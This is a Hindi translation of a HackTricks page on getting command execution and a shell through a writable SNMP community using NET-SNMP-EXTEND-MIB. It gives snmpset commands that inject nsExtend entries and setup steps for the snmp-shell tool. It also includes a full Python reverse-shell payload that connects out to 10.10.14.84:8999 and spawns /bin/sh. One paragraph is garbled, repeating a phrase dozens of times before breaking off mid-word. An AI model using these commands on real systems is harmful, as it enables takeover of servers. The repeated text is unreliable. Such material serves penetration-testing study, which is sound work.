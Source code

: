 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS की नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **Twitter** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके साझा करें।**

</details>


यह पोस्ट [https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/](https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/) से कॉपी की गई है।

एसएनएमपी कभी-कभी उस उपकरण या सर्वर के प्रशासक द्वारा अनदेखा किया जाता है जहां इसे डिफ़ॉल्ट कॉन्फ़िगरेशन में छोड़ दिया जाता है। लिनक्स ऑपरेटिंग सिस्टम पर लिखने की अनुमति वाले एसएनएमपी समुदाय \(**rwcommunity**\) का दुरुपयोग करके हमलावर एक कमांड को सर्वर पर निष्पादित करने के लिए इस्तेमाल किया जा सकता है।

![](https://rioasmara.files.wordpress.com/2021/02/image-6.png?w=508)

# **सेवाओं को विस्तारित करना**

जब आप **snmpd.conf** में कॉन्फ़िगर किए गए मौजूदा प्रविष्टियों को संशोधित करने में सक्षम नहीं होते हैं, तो एसएनएमपी के माध्यम से अतिरिक्त कमांड जोड़ना संभव है, क्योंकि MIB परिभाषा में "MAX-ACCESS" अनुमति सेटिंग "read-create" पर सेट की जाती है।

नई कमांड जोड़ना मूल रूप से "nsExtendObjects" टेबल में एक अतिरिक्त पंक्ति जोड़कर काम करता है।
```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = /bin/echo \
'nsExtendArgs."evilcommand"' = 'hello world'
```
एसएनएमपी सेवा पर चलाने के लिए एक कमांड इंजेक्शन। **NET-SNMP-EXTEND-MIB** यह मांगता है कि आप हमेशा निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्रदान करें जो कि निष्पक्ष पथ प्र
```bash
snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
```
दिखाया जा रहा है कि कमांड /bin/echo है।

![](https://rioasmara.files.wordpress.com/2021/02/image-11.png?w=569)

यह कमांड पढ़ने पर निष्पादित होगा। **run-on-read\(\)**

![](https://rioasmara.files.wordpress.com/2021/02/image-12.png?w=612)

हमारे snmpwalk पढ़ने के दौरान कमांड **/bin/echo "hello rio is here"** निष्पादित हुआ।

![](https://rioasmara.files.wordpress.com/2021/02/image-13.png?w=653)

# **Net-SNMP Extend से शेल प्राप्त करना**

इस खंड में, मैं चर्चा करना चाहूंगा कि सर्वर को नियंत्रित करने के लिए एक सर्वर शेल कैसे प्राप्त किया जाए।

आप **mxrch** द्वारा विकसित पायथन स्क्रिप्ट का उपयोग कर सकते हैं जिसे [**https://github.com/mxrch/snmp-shell.git**](https://github.com/mxrch/snmp-shell.git) से डाउनलोड किया जा सकता है।

आप इसे चलाने के लिए पूर्व-आवश्यकता स्थापित कर सकते हैं:
```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```
![](https://rioasmara.files.wordpress.com/2021/02/image-18.png?w=723)

**रिवर्स शेल बनाना**

आप SNMP में नीचे दिए गए कमांड को इंजेक्ट करके भी रिवर्स शेल बना सकते हैं।
```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```
![](https://rioasmara.files.wordpress.com/2021/02/image-19.png?w=930)

स्नंपवॉक चलाएं ताकि कमांड क्रियान्वयन को ट्रिगर किया जा सके।

![](https://rioasmara.files.wordpress.com/2021/02/image-21.png?w=687)

हमारा नेटकैट विक्टिम से reverseshell कनेक्शन प्राप्त करता है जो हमें विक्टिम मशीन पर नियंत्रण प्राप्त करने की अनुमति देता है।

![](https://rioasmara.files.wordpress.com/2021/02/image-20.png?w=502)



<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS की नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने की उपलब्धता** चाहिए? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह।

- प्राप्त करें [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **ट्विटर** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके**।

</details>
